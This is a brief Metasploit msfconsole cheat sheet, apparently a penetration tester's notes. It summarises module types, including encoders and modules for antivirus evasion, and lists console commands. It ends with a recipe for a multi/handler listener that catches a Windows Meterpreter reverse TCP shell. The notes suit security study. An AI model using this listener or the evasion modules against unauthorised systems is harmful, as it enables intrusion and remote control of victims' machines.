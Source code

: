# Metasploit 

This as simple document condensing the usage of the `msfconsole`.



## Modules

Auxiliary: Non-Exploit, like scanning, fuzzing, sniffing and enumeration against services
Encoders: Encoders will allow you to encode the exploit and payload for AV-Evasion
Evasion: Anti-Virus Evasion modules
Exploits: `searchsploit` and `search` for Exploits
NOPs: Used in payload sizing, by keeping them consistent, to cause intended and not unintended side effect when attempting exploitation.
Payload: Single(one contiguous exploiation process), Stagers(Staged process setup connection to MS to receive Stages in ... stages), Stages(sent to the Stager)
Post: Post-Exploitation phase

## Commands

```msfconsole

background		# background a session
				# OR CTRL+Z
check			# check if system is vulnerable(SOME MODULES HAVE THIS)
exploit					# launch the exploit
	-z					# background exploit when run
info	<module-name> 	# display inforamtion about <module-name>
						# -j for json, -d markdown
jobs					# display jobs
	–k					# kill jobID
	
options					# displays options
search					# searches
session	<number>		# switch or refer to a session
sessions				# list all sessions
	-i					# interact with session number
set						# set data for options
setg					# set global data
show		# display parametres: all, encoders, nops, exploits, payloads, auxiliary, post, plugins, info, options 
				# module-specific: missing, advanced, evasion, targets, actions
use 			# select a module
```

## Simple and useful

Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```



